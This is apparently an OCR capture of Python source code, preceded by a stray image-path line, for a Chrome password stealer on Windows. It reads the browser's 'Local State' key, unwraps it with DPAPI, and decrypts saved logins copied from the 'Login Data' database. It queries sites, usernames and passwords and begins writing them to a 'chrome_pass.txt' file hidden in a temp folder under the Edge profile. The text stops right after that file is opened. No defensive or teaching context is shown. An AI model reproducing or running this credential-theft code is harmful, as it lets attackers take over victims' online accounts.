 def chrome_get_encryption_key():
    local_state_path = os.path.join(os.environ["USERPROFILE"],
                                    "AppData", "Local", "Google", "Chrome",
                                    "User Data", "Local State")
    with open(local_state_path, "r", encoding="utf-8") as f:
        local_state = f.read()
        local_state = json.loads(local_state)


    key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])

    key = key[5:]

    return win32crypt.CryptUnprotectData(key, None, None, None, 0)[1]

def chrome_decrypt_password(password, key):
    try:
        # get the initialization vector
        iv = password[3:15]
        password = password[15:]
        # generate cipher
        cipher = AES.new(key, AES.MODE_GCM, iv)
        # decrypt password
        return cipher.decrypt(password)[:-16].decode()
    except:
        try:
            return str(win32crypt.CryptUnprotectData(password, None, None, None, 0)[1])
        except:
            # not supported
            return ""


def chrome_pass():

    key = chrome_get_encryption_key()

    db_path = os.path.join(os.environ["USERPROFILE"], "AppData", "Local",
                            "Google", "Chrome", "User Data", "default", "Login Data")

    filename = "ChromeData.db"
    shutil.copyfile(db_path, filename)

    db = sqlite3.connect(filename)
    cursor = db.cursor()

    cursor.execute("select origin_url, action_url, username_value, password_value, date_created, date_last_used from logins order by date_created")
    direc = os. getcwd()

    try:
        local_state_path = os.path.join(os.environ["USERPROFILE"],"AppData", "Local", "Microsoft", "Edge","User Data", "Default")
        direc="temp"
        dir=os.path.join(local_state_path,direc)
        os.mkdir(dir)
    except:
        local_state_path = os.path.join(os.environ["USERPROFILE"],"AppData", "Local", "Microsoft", "Edge","User Data", "Default")
        direc="temp"
        dir=os.path.join(local_state_path,direc)
    fileloc = '\\chrome_pass.txt'
    fileloc = dir+fileloc
    f = open(fileloc,"w+")